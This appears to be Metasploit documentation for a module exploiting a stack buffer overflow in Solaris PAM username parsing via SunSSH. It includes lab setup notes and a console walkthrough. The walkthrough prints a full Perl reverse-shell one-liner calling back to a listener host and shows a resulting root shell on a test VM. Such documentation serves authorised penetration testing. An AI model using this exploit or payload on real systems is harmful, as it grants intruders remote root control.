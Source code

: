 ## Vulnerable Application

### Description

This module exploits a stack-based buffer overflow in the Solaris PAM
library's username parsing code, as used by the SunSSH daemon when the
keyboard-interactive authentication method is specified.

Tested against SunSSH 1.1.5 on Solaris 10u11 1/13 (x86) in VirtualBox,
VMware Fusion, and VMware Player. Bare metal untested. Your addresses
may vary.

### Setup

Download and install [Solaris 10u11 1/13
(x86)](https://download.oracle.com/otn/solaris/10/sol-10-u11-ga-x86-dvd.iso)
in VMware or VirtualBox.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware`

### 1

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox`

## Scenarios

### `SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware`

```
msf6 > use exploit/solaris/ssh/pam_username_bof
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(solaris/ssh/pam_username_bof) > options

Module options (exploit/solaris/ssh/pam_username_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   22               yes       The target port


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware


msf6 exploit(solaris/ssh/pam_username_bof) > set rhosts 192.168.1.14
rhosts => 192.168.1.14
msf6 exploit(solaris/ssh/pam_username_bof) > set lhost 192.168.1.7
lhost => 192.168.1.7
msf6 exploit(solaris/ssh/pam_username_bof) > check

[*] Using auxiliary/scanner/ssh/ssh_version as check
[+] 192.168.1.14:22       - SSH server version: SSH-2.0-Sun_SSH_1.1.5 ( service.version=1.1.5 service.vendor=Sun service.product=SSH os.vendor=Sun os.family=Solaris os.product=Solaris os.cpe23=cpe:/o:sun:solaris:- service.protocol=ssh fingerprint_db=ssh.banner )
[*] 192.168.1.14:22       - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.1.14:22 - Cannot reliably check exploitability.
msf6 exploit(solaris/ssh/pam_username_bof) > run

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.1.7:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Started reverse TCP handler on 192.168.1.7:4444
[*] Exploiting SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware
[*] Yeeting cmd/unix/reverse_perl at 192.168.1.14:22
[*] Command shell session 1 opened (192.168.1.7:4444 -> 192.168.1.14:32882) at 2020-11-30 21:26:52 -0600

id
uid=0(root) gid=0(root)
uname -a
SunOS unknown 5.10 Generic_147148-26 i86pc i386 i86pc
```
